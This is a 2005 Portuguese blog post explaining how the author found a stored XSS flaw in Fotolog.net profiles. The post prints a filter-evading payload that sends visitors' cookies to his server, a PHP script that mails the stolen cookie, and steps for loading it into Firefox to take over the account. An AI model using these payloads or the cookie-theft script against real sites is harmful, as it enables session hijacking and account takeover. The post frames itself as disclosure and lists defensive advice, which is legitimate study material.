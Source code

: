 ```yaml
---
title: Falha no Fotolog.net
type: post
date: 2005-02-17T16:22:47+00:00
excerpt: A descrição de como descobri que consegui pegar o cookie do Fotolog.net de qualquer pessoa que entra no meu profile num Fotolog.net
url: /2005/02/falha-no-fotolognet/
categorias:
  - Dicas
tags:
  - cookies
  - dica
  - falha
  - fotolog
  - hacker
  - javascript
  - web
  - xss
---
```


Segue a descrição de como descobri que consigo pegar o cookie do Fotolog.net de qualquer pessoa que entra no meu profile, e com isso, poder:

- Adicionar comentários em qualquer fotolog como a pessoa
- Remover comentários do fotolog da pessoa
- Adicionar/remover FF list
- Ver e-mail de cadastro da pessoa

**[update]** Parece que isso não funciona mais hoje. De qualquer maneira, é um bom guia (acho que tá bem detalhado) para _roubar cookies_ de vários outros sitemas que tenham falhas como esta (e não são poucos). **[/update]**

Nos últimos dias, alguém pegou a senha do Fotolog.net de um amigo meu e ele me pediu para que eu tentasse recuperar. Não consegui descobrir senha. Porém, usando furos do Fotolog.net e do Internet Explorer, descobri que consigo estar loggado com qualquer usuário que entre no meu perfil! Já que é preciso escrever a senha em cada página do Fotolog.net (upload, mudar profile, etc.) a única coisa que posso fazer loggado como a pessoa é escrever comentários, mas mesmo assim já é uma coisa estranha que merece a atenção do administrador do Fotolog.net (para o qual irei enviar um e-mail). Irei postar um “passo-a-passo” de como pegar o cookie de login do Fotolog.net e com isto, loggar como a pessoa que perdeu esse cookie.

O cookie do Fotolog.net dura mais de um ano… Isso é um problema grave de segurança, mas não é utilizando esta falha que faço tudo. O que eu fiz foi um JavaScript dentro de um CSS redirecionar para uma página PHP com função mail que me envia a função document.cookie do JavaScript que roda no cliente na página do Fotolog.net! É um pouco difícil de explicar, mas não tão complicado. Meu objetivo postando aqui não é incentivar que as pessoas façam isso (eu só fiz comigo mesmo testando), mas incentivar os que possuem conta no Fotolog.net usarem browsers decentes (como Firefox ou Opera) ou não clicar em profiles de estranhos. Tenho certeza de que hackers de verdade não usarão isto para o mal, mas sim para fins de aprendizagem, como eu fiz; mas parece que vários newbies por aí se acham e se acharão o máximo postando comentários como outras pessoas com a minha “receita de bolo”! Por esses, preciso lamentar e mandar ler a definição de hacker no Jargon File.

A primeira barreira que tive que ultrapassar foi que só 500 brasileiros por dia podem se registrar no Fotolog.net! Bom… Eu tava ansioso pra tentar fazer isso e já que eu não tinha tempo a perder, entrei no site [Public Proxy Servers][1] e usando um proxy high-anonimity do Vietnã me registrei no Fotolog.net… Perfeito! Apareceu que nenhum visitante do Vietnã tinha se cadastrado no dia.

Então, fui até o meu profile e no endereço do meu site eu tentei colocar aspas. Percebi que funcionou, então testei um código de bastante fácil entendimento:

```
#" style="background:url(javascript:location.href='http://tableless.tiagomadeira.net/foo.php'+escape(document.cookie))
```

Mas não funcionou porque o Fotolog.net não permite “javascript” na frase. Então após alguns testes cheguei ao:

```
#" style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))
```

_OBS.: Tenho recebido e-mail de pessoas dizendo que o não cabe… O meu também não cabia, mas é só questão de diminuir o endereço._

Este código só funciona porque o _Internet Explorer_ é problemático! Não tem nada a ver um _JavaScript_ dentro de uma url de fundo e ainda ir para este endereço! E o [Fotolog.net][2] também tem um bug seríssimo porque não deveria poder se usar aspas no endereço de um site! Daí no meu profile aparece no lugar do endereço da minha página:

```html
<a
  href="#"
  style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))"
  >#" style="background:url(ja vas cript:location.href=%27
  http://www.tiagomadeira.net/r.php?c=%27 +escape(document.cookie))</a
>
```

Bom, depois disso basta fazer uma página PHP que passe este valor do c para um banco de dados ou e-mail (no meu caso, preferi por e-mail mesmo). Criei uma página no meu /r.php com:

```php
<?php
$cookie=$_GET["c"];
mail("meu@email", "Presente pra você!", "$cookie");
Header("Location: http://tableless.tiagomadeira.net");
?>
```

E o último problema que enfrentei então foi colocar este cookie no meu Firefox. Depois de vários testes, descobri que eu podia editar os cookies do meu Firefox. Para isto abri meu _>~/.mozilla/firefox/profiles/??????.default/cookies.txt_ e modifiquei o cookie para o que eu recebi no e-mail. E finalmente loggado!

#### Vou tentar simplificar o “algoritmo”:

- A pessoa está loggada (sempre, pois o cookie do fotolog.net é gigantesco) e entra no meu perfil.
- Meu perfil pega o cookie do Fotolog.net deste computador (que precisa estar usando Internet Explorer) e me envia via a função mail do PHP.
- Eu troco o cookie do meu Firefox pelo que eu recebi no e-mail e com isto fico loggado como a pessoa!

Interessante, né?

Bom, como já havia dito, isto foi apenas para fins de aprendizagem e descobri tudo isto justamente porque algum lammer pegou a senha de um amigo meu, mas espero que as pessoas aprendam a lição para não se tornarem as vítimas deste _“golpe”_.

**Eu conheço três formas para se tornar resistente a esse golpe:**

- Não utilizar Internet Explorer. Sugiro [Firefox][3] (o que eu uso), [Opera][4], [Konqueror][5], entre outros…
- Não utilizar [Fotolog.net][2]. Sugiro [Flickr][6].
- Não clicar em profiles de estranhos.

Bom… É isso aí.

Aprendi muito com isto e por isso compartilho este conhecimento neste post para que outros também possam aprender. Quem puder, divulgue para seus amigos para que eles não sejam vítimas desse tipo de coisa.

[1]: http://www.publicproxyservers.com
[2]: http://www.fotolog.net
[3]: http://www.getfirefox.com
[4]: http://www.opera.com
[5]: http://konqueror.kde.org
[6]: http://www.flickr.com
